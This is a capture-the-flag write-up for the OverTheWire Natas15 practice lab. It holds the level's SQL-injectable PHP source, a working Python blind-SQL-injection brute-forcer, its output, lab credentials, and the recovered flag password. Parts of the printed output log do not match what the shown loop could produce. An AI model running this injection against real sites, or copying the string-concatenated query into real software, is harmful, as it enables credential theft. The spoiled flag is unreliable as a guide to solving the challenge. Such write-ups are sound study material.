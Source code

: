 # CTF Writeup - **OverTheWire Natas14 - Natas15**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas14 - Natas15
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 13-12-2024

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using blind injection.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas15
Password: SdqIqBsFcz3yotlNYErZSZwblkm0lrvx
URL:      http://natas15.natas.labs.overthewire.org
```

After logging in, we can see that the webpage asks for username as input.  But we dont know anything about it, So lets input some random names and check it out. 

```bash
Username: natas16
Check Existence
This user exists.
```

Now we see that we get user exists. Lets view the source code. 

```bash
# <?php

# /*
# CREATE TABLE `users` (
#   `username` varchar(64) DEFAULT NULL,
#   `password` varchar(64) DEFAULT NULL
# );
# */

# if(array_key_exists("username", $_REQUEST)) {
#     $link = mysqli_connect('localhost', 'natas15', '<censored>');
#     mysqli_select_db($link, 'natas15');

#     $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
#     if(array_key_exists("debug", $_GET)) {
#         echo "Executing query: $query<br>";
#     }

#     $res = mysqli_query($link, $query);
#     if($res) {
#     if(mysqli_num_rows($res) > 0) {
#         echo "This user exists.<br>";
#     } else {
#         echo "This user doesn't exist.<br>";
#     }
#     } else {
#         echo "Error in query.<br>";
#     }

#     mysqli_close($link);
# } else {
# ?>
```

We can see that there is a small piece of code that is executed when we click on submit. That takes out input username and appends it to an sql string and checks if the return value has greater than 1 then its shows the password. The best resource for this challenge is `https://www.youtube.com/watch?v=fQ_Iehcm9OQ`. I would highly recommend watching this tutorial. Now lets write some code based on the idea given in tutorials as shown below.


```bash
import string
import requests

# Credentials and target URL
username = "natas15"
password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"
url = "http://natas15.natas.labs.overthewire.org"

# Possible characters (letters + digits)
chars = string.ascii_letters + string.digits
validstr = "This user exists."

# Step 1: Determine the valid characters in the password
valid_password = ""
for char in chars:
    uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"%',char,'%','&debug'])
    r = requests.get(uri, auth=(username, password))
    if validstr in r.text:
        valid_password += char
        print("Password Dictionary: {}".format(''.join(valid_password)))

# Step 2: Brute-force the password character by character
actual_password = ""
while len(actual_password) < 32: 
    for char in valid_password:
        temp_password = actual_password + char
        uri = ''.join([url,'?','username=natas16"','+and+password+LIKE+BINARY+"',temp_password,'%','&debug'])
        response = requests.get(uri, auth=(username, password))
        if validstr in response.text:
            actual_password += char
            print(f"Password so far: {actual_password}")
            break

print(f"Password found: {actual_password}")
```

What we are doing here is that we are essentially finding all the characters in the password using the bruteforce approach and blind sql injection which checks if there exists a username with `natas16` and password has `character` with this we will have all the characters in the password. Now we need to determine the order of these characters that is done in the second loop where we build the characters one by one untill we find the right order.  

```bash
# Password Dictionary: c
# Password Dictionary: ce
# Password Dictionary: cef
# Password Dictionary: cefh
# Password Dictionary: cefhi
# Password Dictionary: cefhij
# Password Dictionary: cefhijk
# Password Dictionary: cefhijkm
# Password Dictionary: cefhijkmo
# Password Dictionary: cefhijkmos
# Password Dictionary: cefhijkmost
# Password Dictionary: cefhijkmostu
# Password Dictionary: cefhijkmostuv
# Password Dictionary: cefhijkmostuvD
# Password Dictionary: cefhijkmostuvDE
# Password Dictionary: cefhijkmostuvDEG
# Password Dictionary: cefhijkmostuvDEGK
# Password Dictionary: cefhijkmostuvDEGKL
# Password Dictionary: cefhijkmostuvDEGKLM
# Password Dictionary: cefhijkmostuvDEGKLMP
# Password Dictionary: cefhijkmostuvDEGKLMPQ
# Password Dictionary: cefhijkmostuvDEGKLMPQV
# Password Dictionary: cefhijkmostuvDEGKLMPQVW
# Password Dictionary: cefhijkmostuvDEGKLMPQVWX
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY3
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY34
# Password Dictionary: cefhijkmostuvDEGKLMPQVWXY346
# Password so far: h
# Password so far: hP
# Password so far: hPk
# Password so far: hPkj
# Password so far: hPkjK
# Password so far: hPkjKY
# Password so far: hPkjKYv
# Password so far: hPkjKYvi
# Password so far: hPkjKYviL
# Password so far: hPkjKYviLQ
# Password so far: hPkjKYviLQc
# Password so far: hPkjKYviLQct
# Password so far: hPkjKYviLQctE
# Password so far: hPkjKYviLQctEW
# Password so far: hPkjKYviLQctEW3
# Password so far: hPkjKYviLQctEW33
# Password so far: hPkjKYviLQctEW33Q
# Password so far: hPkjKYviLQctEW33Qm
# Password so far: hPkjKYviLQctEW33Qmu
# Password so far: hPkjKYviLQctEW33QmuX
# Password so far: hPkjKYviLQctEW33QmuXL
# Password so far: hPkjKYviLQctEW33QmuXL6
# Password so far: hPkjKYviLQctEW33QmuXL6e
# Password so far: hPkjKYviLQctEW33QmuXL6eD
# Password so far: hPkjKYviLQctEW33QmuXL6eDV
# Password so far: hPkjKYviLQctEW33QmuXL6eDVf
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6
# Password so far: hPkjKYviLQctEW33QmuXL6e
# Password so far: hPkjKYviLQctEW33QmuXL6eD
# Password so far: hPkjKYviLQctEW33QmuXL6eDV
# Password so far: hPkjKYviLQctEW33QmuXL6eDVf
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfM
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4s
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sG
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
# Password so far: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
# Password found: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```


## Flag

**Flag:** hPkjKYviLQctEW33QmuXL6eDVfMW4sGo


---

## Lessons Learned

It was a bit of challenge for me. I was able to grasp the idead behind the solution very easily. I learnt a lot on how to approach these types of challenges.